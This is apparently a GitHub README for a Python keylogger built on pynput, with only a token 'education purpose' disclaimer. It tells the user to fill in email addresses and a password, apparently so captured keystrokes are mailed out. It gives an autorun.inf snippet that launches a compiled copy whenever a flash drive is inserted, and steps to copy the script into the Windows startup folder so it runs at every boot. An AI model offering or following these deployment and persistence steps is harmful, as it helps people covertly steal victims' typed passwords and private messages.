# keylogger

This code is only for Education purpose.
## requirements
pynput

Step 1: clone the repo
Step 2: install pynput
Step 3: run the code(Note: make sure you have changed the email1 and email2 and the password to your email name and password)

## Run whenever flash drive is inserted
[autorun]
open = Your_py2exe_file.exe
action = Run my program
icon = your.ico

save this as autorun.inf

## Run on windows start
Step 1: Go to Start > Run
Step 2: Type shell:startup
Step 3: Paste the keylogger.py file
